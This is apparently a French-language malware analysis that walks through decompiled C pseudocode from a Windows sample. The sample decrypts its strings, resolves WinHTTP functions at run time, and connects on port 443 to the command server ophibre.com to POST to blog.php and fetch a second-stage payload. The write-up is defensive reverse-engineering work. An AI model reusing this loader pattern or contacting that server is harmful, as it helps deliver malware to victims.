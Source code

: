 Pour l'instant, le code n'effectue aucune action malveillante. Néanmoins, après avoir installé la persistance, le code va essayer de se connecter à un serveur et de récupérer un script (ou exécutable, n'ayant pas accès au serveur, impossible de savoir).

Tout d'abord, le code retrouve une chaîne d'agent utilisateur (*User Agent String*) chiffrée en mémoire qui est la suivante :

`Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36`

Cette chaîne est utilisée afin de récupérer le handle de session pour ouvrir la connexion avec le serveur, il utilise `WinHttpOpen`.

Ensuite, il récupère le nom du serveur qui est `ophibre.com` :

```c
GetEncryptedDataOf_ServerName(&var_1f1, &EncryptedNameOf_server);
void* server_name;
int64_t r8_2;
server_name = DecryptData_4(&EncryptedNameOf_server);
```

Puis récupère le handle de la connexion au serveur en utilisant `WinHttpConnect` avec le handle de session, le nom du serveur et le port :

```c
GetEncryptedDataOf_WinHttpConnect(&var_191, &var_190);
void* name_WinHttpConnect = DecryptData_5(&var_190);
void var_1c1;
void var_1c0;
GetEncryptedDataOf_winhttp_2(&var_1c1, &var_1c0);
void* name_winhttp_2;
int64_t r8_1;
name_winhttp_2 = DecryptData_4(&var_1c0);
void* WinHttpConnect =
    ResolveFunction(name_winhttp_2, name_WinHttpConnect, r8_1, r9);
void var_1f1;
void EncryptedNameOf_server;
GetEncryptedDataOf_ServerName(&var_1f1, &EncryptedNameOf_server);
void* server_name;
int64_t port;
server_name = DecryptData_4(&EncryptedNameOf_server);
(uint16_t)port = 443;
int64_t hConnect;
int64_t r9_1;
hConnect = WinHttpConnect(hSession, server_name, port, 0);
```
Par la suite, il construit une requête `POST` qui a pour but de préparer le téléchargement du script (à voir) :

```c
GetEncryptedDataOf_WinHttpOpenRequest(&var_221, &var_220);
void* name_WinHttpOpenRequest = DecryptData_7(&var_220);
void var_251;
void var_250;
GetEncryptedDataOf_winhttp_3(&var_251, &var_250);
void* name_winhttp_3;
int64_t r8_2;
name_winhttp_3 = DecryptData_4(&var_250);
void* WinHttpOpenRequest = ResolveFunction(name_winhttp_3, name_WinHttpOpenRequest, r8_2, r9_1);
// Target of request blog.php
// ophibre.com/blog.php
void var_279;
void var_278;
GetEncryptedDataOf_blogphp(&var_279, &var_278);
void* name_blogphp = DecryptData_6(&var_278);
void var_299;
void encrypted_POST;
```